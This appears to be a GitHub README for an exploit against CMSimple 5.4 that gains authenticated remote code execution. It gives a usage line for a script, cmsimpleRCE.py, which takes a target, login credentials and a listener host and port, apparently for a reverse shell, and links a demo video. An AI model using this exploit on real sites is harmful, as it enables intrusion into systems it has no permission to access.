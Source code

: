 # CMSimple-5.4-Authenticated-RCE-
Cmsimple 5.4 - Remote Code Execution (RCE) (Authenticated)

Exploit Usage : cmsimpleRCE.py -url targetdomai.com -u username -p password -ip lhost -lp lport


[![Video](https://img.youtube.com/vi/7EvncRsiHFU/0.jpg)](https://www.youtube.com/watch?v=7EvncRsiHFU)


